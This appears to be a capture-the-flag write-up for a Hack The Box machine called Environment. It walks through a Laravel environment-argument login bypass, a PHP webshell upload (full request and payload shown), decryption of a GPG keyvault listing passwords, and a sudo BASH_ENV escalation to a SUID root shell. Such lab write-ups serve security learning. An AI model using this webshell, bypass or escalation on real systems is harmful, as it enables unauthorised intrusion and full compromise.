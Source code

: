 # Environment (10.10.11.67)

```bash
PORT     STATE SERVICE   REASON         VERSION
22/tcp   open  ssh       syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c023395ef44e280cd3a960223f19264 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrihP7aP61ww7KrHUutuC/GKOyHifRmeM070LMF7b6vguneFJ3dokS/UwZxcp+H82U2LL+patf3wEpLZz1oZdQ=
|   256 1f3dc2195528a17759514810c44b74ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ7xeTjQWBwI6WERkd6C7qIKOCnXxGGtesEDTnFtL2f2
80/tcp   open  http      syn-ack ttl 63 nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.22.1
```
- no containers from TTL
# HTTP 80

- redirected to: environment.htb
- laravel backend (php nginx debian)
- no strange comment
- no subdomain in port 80
- we can send mail to: /mailing
- maybe cve-2024-52301
- we can alter text in /page:
```bash
curl 'http://environment.htb/?--env=test'

# output gets reflected in title
```
- maybe env is setting title or something like that
- --env=development doesnt seems to do anything other than setting HTML to user input
- found:
```hmtl
/login                (Status: 200) [Size: 2391]
/logout               (Status: 302) [Size: 358] [--> http://environment.htb/login]
/mailing              (Status: 405) [Size: 244854]
/robots.txt           (Status: 200) [Size: 24]
/storage              (Status: 301) [Size: 169] [--> http://environment.htb/storage/]
/up                   (Status: 200) [Size: 2126]
/upload               (Status: 405) [Size: 244852]
/vendor               (Status: 301) [Size: 169] [--> http://environment.htb/vendor/]
```
- if we force an error we can see a part of the backend with comments:
```php

        $keep_loggedin = False;
    } elseif ($remember == 'True') {
        $keep_loggedin = True;
    }
 
    if($keep_loggedin !== False) {
    // TODO: Keep user logged in if he selects "Remember Me?"
    }
 
    if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
        $request->session()->regenerate();
        $request->session()->put('user_id', 1);
        return redirect('/management/dashboard');
    }
 
    $user = User::where('email', $email)->first();
```
- we can try intercept a login with random data and add "?--env=preprod" as get param
- logged in as Hish
- we can just change profile pic, just picture (maybe file upload bypass) 
- we can upload a PHP webshell:
```txt
POST /upload HTTP/1.1
Host: environment.htb
Content-Length: 41460
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMqYGhUpNQQXI3xOX
Accept: */*
Origin: http://environment.htb
Referer: http://environment.htb/management/profile
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6ImtlUFhnaU56MGY0ZGpOcXpGSzdwaWc9PSIsInZhbHVlIjoiMU9tb3oybG1Bb29YYkptNDRaZ2JuWllwMDlBWWVUbUhoYkZGSXVnRUNEeVNSM3pZQXRVZlVaWjJLc1JxdWxoWDgrU1VvYWdUTFJ1VTV6K2N1WVRjdk5yTWVxSG9JbEJ6aFpsL052clBaWlBXOTRBYWdnc1JvSkUzQmlsUGRmRkoiLCJtYWMiOiJmYzc4NTBkZjA4YmQ4ZDdlZmE5YzIxYjU5MmU4NWU0MTc2OWM2NjNmMWQzMmI0ZmZiMzI4YjA2ZjI1OGEwMzMwIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IklMVXBrb3YrVG9LZGtYNHk2WXA4Q0E9PSIsInZhbHVlIjoib2t4VnROeThJVHg2QzB2Mno0aUh1aS9wMlFHT3VaMXd3K1ZCVElBSjcyaFlIREhRS3c4Q2xncTRVUDRjYVJ3NGtTMC81aTBnQis5TEs1L25KaVRZNStSWDNIUjVvTE9ZcnozM1ArekpJQVAvWWxVd0JTd3BGRk15NGIranE3U0kiLCJtYWMiOiJjY2U4MWQ0NjI1OGQ5MmNjODZlYTI0YTkwMmZjYjgyMzA0ZjJiOTI3NzVmNWIzZTEzMDk2MmRkOGMyMjBmYzBmIiwidGFnIjoiIn0%3D
Connection: keep-alive

------WebKitFormBoundaryMqYGhUpNQQXI3xOX
Content-Disposition: form-data; name="_token"

mY6TDwTbv2ENGZhBTnCu95GBj1r5QjiVJi752YFF
------WebKitFormBoundaryMqYGhUpNQQXI3xOX
Content-Disposition: form-data; name="upload"; filename="shell.php."
Content-Type: image/png

<image data>

<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
```
- we can execute commands by visiting 'http://environment.htb/storage/files/shell.php?cmd=ls' 
- keep the session
- we can put revshell payload.

# www-data

- we can read some config files and found db sqlite
- users table (no luck in cracking):
```sql
$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi
$2y$12$i.h1rug6NfC73tTb8XF0Y.W0GDBjrY5FBfsyX2wOAXfDWOUk9dphm
$2y$12$6kbg21YDMaGrt.iCUkP/s.yLEGAE2S78gWt.6MAODUD3JXFMS13J.
```

- found gpg file and decripted:
```bash
(remote) www-data@environment:/home/hish$ cp -r .gnupg/ /tmp/.gnupg
(remote) www-data@environment:/home/hish$ export GNUPGHOME=/tmp/.gnupg/
(remote) www-data@environment:/home/hish$ gpg --list-secret-keys
gpg: WARNING: unsafe permissions on homedir '/tmp/.gnupg'
/tmp/.gnupg/pubring.kbx
-----------------------
sec   rsa2048 2025-01-11 [SC]
      F45830DFB638E66CD8B752A012F42AE5117FFD8E
uid           [ultimate] hish_ <hish@environment.htb>
ssb   rsa2048 2025-01-11 [E]

(remote) www-data@environment:/home/hish$ 
(remote) www-data@environment:/home/hish$ chmod 700 /tmp/.gnupg/
(remote) www-data@environment:/home/hish$ gpg --list-secret-keys
/tmp/.gnupg/pubring.kbx
-----------------------
sec   rsa2048 2025-01-11 [SC]
      F45830DFB638E66CD8B752A012F42AE5117FFD8E
uid           [ultimate] hish_ <hish@environment.htb>
ssb   rsa2048 2025-01-11 [E]

(remote) www-data@environment:/home/hish$ gpg --decrypt /home/hish/backup/keyvault.gpg 
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

- password reuse for environment.htb:marineSPm@ster!!

# hish

- we sudo -l:
```bash
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV
    BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

- with BASH_ENV we can execute code by creating /tmp/test.sh
```bash
#!/bin/bash

cp /bin/bash /tmp/bash
chmod +xs /tmp/bash
```

- then we can have RCE:
```bash
sudo BASH_ENV=/tmp/test.sh /usr/bin/systeminfo
```

- check if I have SUID in bash binary
```ls -la /tmp/bash```
- I do ```-rwsr-sr-x 1 root root ...```

- execute the SUID bash
```/tmp/bash -p```

# root

- we now have bash SUID bash in tmp
